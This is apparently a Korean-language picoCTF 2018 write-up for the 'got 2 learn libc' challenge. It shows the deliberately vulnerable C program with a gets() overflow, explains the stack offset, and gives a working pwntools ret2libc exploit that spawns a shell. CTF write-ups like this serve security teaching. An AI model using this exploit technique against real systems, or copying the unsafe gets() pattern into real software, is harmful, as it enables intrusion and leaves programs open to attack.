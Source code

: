 # picoCTF 2018

<h5> got 2 learn libc </h5>
<hr>

<h5> Solution </h5>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */


void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");
  
  vuln();

  
  return 0;
}
```

<p> 코드를 보면 눈에 띄는 부분들인, 함수의 주소들을 출력해주는 부분이 있다. </p>
<p> 바로 떠오르는 방법인, 주어지는 함수를 릭하는 문제이다. </p>

<p> 먼저 입력 버퍼를 GDB를 통해서 메모리를 보자, </p>
<img class="border-shadow" src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fk.kakaocdn.net%2Fdn%2Fb9pvi1%2FbtqxRuQsP6f%2FTcTo8ZnBp6BHIgVOAOiex1%2Fimg.png"><br>

<p> vuln+42 ( lea eax, [ebp-0x9c] ) 라인이 입력 버퍼가 저장되는 공간이다. </p>

<p> 0x9c = 156Byte + SFP(4) + RET 순서로 스택을 정리 하자. </p>

<p> 먼저 주어지는 함수들의 주소를 받아, libc에서 오프셋을 구한 뒤, 실제 함수의 주소를 구해야 한다. </p>

<p> 바이너리에서 useful_string 이라는 변수에 "/bin/sh" 를 지정해줬기 때문에 /bin/sh 을 따로 구하지 않아도 바로 쉘을 획득할 수 있다. </p>


```py
#!/usr/bin/python

from pwn import *

p = process('./vuln')

libc = ELF('/lib/i386-linux-gnu/libc.so.6') # PicoCTF libc File /lib32/libc.so.6

libc_read = libc.symbols['read']
libc_system = libc.symbols['system']

p.recvuntil('read: ')

read_addr = int(p.recv(10),16)

p.recvuntil('useful_string: ')

binsh_addr = int(p.recv(10),16)

p.recvlines(3)

libc_base = read_addr - libc_read
system_addr = libc_base + libc_system

payload = "A"*160
payload += p32(system_addr)
payload += "A"*4
payload += p32(binsh_addr)

p.sendline(payload)

p.interactive()
```